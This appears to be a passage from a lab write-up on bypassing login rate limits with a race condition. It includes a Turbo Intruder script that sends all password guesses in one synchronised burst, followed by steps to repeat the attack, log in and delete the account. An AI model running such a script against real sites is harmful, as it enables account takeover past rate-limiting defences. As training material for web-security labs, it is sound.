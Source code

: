 Here we use the following Turbo intruder to take a wordlist from our clipboard and bruteforce the `password` field from the request, sending all the requests in a rowÑ

```python
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    passwords=wordlists.clipboard

    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
     # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='gate1')

    # once every request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('gate1')


def handleResponse(req, interesting):
    table.add(req)

```

We send the requests in sync with this technique (something similar as sending them "in parallel").

Repeating the attack several times until we succeed with the password. Remember that turbo intruder needs to specify the payload with `%s` (if it´s string).

For example, here none of the requests that entered in the race window was successfull:
![](imgs/login_rate_limit_bypass.png)

We have to repeat the attack until we get a success:
![](imgs/login_rate_limit_bypass-1.png)


We can now enter with its password and delete himself:
![](imgs/login_rate_limit_bypass-2.png)
